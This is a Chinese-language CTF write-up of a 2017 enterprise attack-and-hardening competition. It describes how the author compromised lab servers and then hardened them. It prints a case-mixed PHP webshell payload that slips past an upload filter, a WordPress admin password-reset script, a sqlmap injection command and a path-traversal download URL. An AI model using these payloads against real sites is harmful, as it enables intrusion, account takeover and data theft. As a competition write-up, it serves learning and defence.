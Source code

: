 ```yaml
---
title: 2017 信息安全铁人三项赛企业赛华南赛区 WriteUp
tags:
  - CTF
  - Web
  - WriteUp
  - 审计
  - 加固
  - 上传
date: 2017-04-23 20:42:59
---
```


## “企业夺旗”模式

```
web1：192.168.5.11 wordpress
```
<!-- more -->
fuzzing中发现test目录存在测试上传页面，随便传一个php网马上去可以看到该页面源码，主要过滤代码如下
```php
while($next = preg_replace("/&lt;\\?/", "", $data)){ 
    $next = preg_replace("/php/", "", $next); 
    if($data === $next) { 
        break; 
    } 
    source(); 
    $data = $next; 
}
```
不难看出对‘php’进行循环过滤，我是`构造大小写加script`绕过的
```php
<script language="pHp">eval($_POST[x]);</script>
```
菜刀连接后在网站根目录找到`flag1`。

然后利用网上找的代码修改`wordpress admin`密码
```php
<?php
//password resetter
include("wp-config.php");
include("wp-blog-header.php");
if (empty($_POST['emergency_pass'])) {
?>
    <form method="post">
      set admin password: <input name="emergency_pass" type="password" />
      <input type="submit" />
    </form>
<?php
} else {
    $sql = "UPDATE ".$wpdb->users." SET user_pass = '".md5($_POST['emergency_pass'])."' WHERE User_login = 'admin'";
    $link = $wpdb->query($sql);
    wp_redirect('wp-login.php');
    exit();
}
?>
```
在后台找了一圈没看到flag，把账号密码甩给队友，队友在导出所有内容中找到了`flag7`

尝试提权失败，Centos7 3.1内核，后来下午加固赛发现ssh密码是弱密码，早上拿一血的队伍是直接`ssh爆破`get的

```
web2：192.168.2.12  PHPOA
```
百度这个oa系统找到了这个
[某协同网络办公OA系统若干漏洞打包（附详细分析）](http://www.shellsec.com/tech/151965.html)

注入拿到后台账号密码`test` `admin123`
```
python sqlmap.py -u "http://192.168.2.12/admin.php?ac=duty&amp;fileurl=duty" --data "do=excel&amp;number=1" -D myoa --tables
```
进了后台看到`flag10`

找到两个上传点，一个ewe的编辑器，发现后缀名绕不过去然后用了另一个上传点，

用`任意文件下载漏洞`下载了`/upload_file.php`源码
```
http://192.168.2.12/down.php?urls=data/../upload_file.php
```
```php
if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&( $uploaded_size < 100000 ) &&getimagesize( $uploaded_tmp ) ) {
    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo 'Your image was not uploaded.';
    }
    else {
        // Yes!
        echo ltrim($target_path,'.')." succesfully uploaded!";
    }
}
```
直接上传图马菜刀连接，网站根目录拿到`flag3`

这时名次徘徊在5.6名，队友说发现一个FTP服务器
```
FTP：192.168.5.13
```
8uftp连接，下意识输入`admin` `admin`，直接弱密码连接成功，我和两个队友都惊呆了

ftp里一共四个flag，一个明文`flag2`，另外三个在`another-flag.zip` 中，
队友解开伪加密，里面有个明文的`flag11`，还有一个c语言源码，是道`pwn`题，
令人惊讶的是这道题是道原题，i春秋有视频解析的一道题
[http://www.ichunqiu.com/course/53923](http://www.ichunqiu.com/course/53923)

通过输入名字长度为40位+已知flag，就能得到下一位flag
如输入`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag`就能看到下一位`8`，这个flag是`flag8`，然后输入
`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag8`就能看到下一位`{`，依次类推直到看见`}`。

还有一个apk安卓文件，两个队友到最后也只解出了`flag9{}`，但是中间部分没解出来
夺旗赛剩下的时间都在研究linux提权，一直以为服务器根目录还有flag，到最后也没拿下。

## “企业加固”模式

加固赛给了四个服务器
```
web1/linux：192.168.5.11
ftp/linux：192.168.5.13
域控制器/win7：192.168.忘记是啥了
web2/linux：192.168.2.12
```
这里的域控制器早上一直没扫到，登陆进去发现`flag4`但是已经晚了

我的加固步骤如下：
```
修改web1，域控制器登录弱密码
修改ftp服务器中的admin账号弱密码
删除web1的test目录
删除web2页面中的几个备份文件
删除web2测试账号
web2任意文件下载限制php后缀
web2文件上传添加后缀限制
web1，web2添加waf防止注入
```

另外win7加固扔给队友了，因为最近的`fb.py`嘛

分数最高的时候拿到第二，最终拿下第三名。

## 总结

第一次参加这种类型的比赛，感觉准备的还不是很充分，上午拿flag因为web太慢第一个小时差点心态爆炸，两个服务器弱密码都没有找出来，ftp弱密码也只是运气好拿到的，下午的加固赛中没有和队友沟通好，基本是只有两个人在战斗，差点第三不保。最终的成绩还是比较满意的，意识到自己的很多不足，也慢慢找到了适合自己的网络安全方向，偏代码审计方向。奖金5000块还是有点美滋滋的哈哈哈哈。

![](/img/2017t3sec.jpg)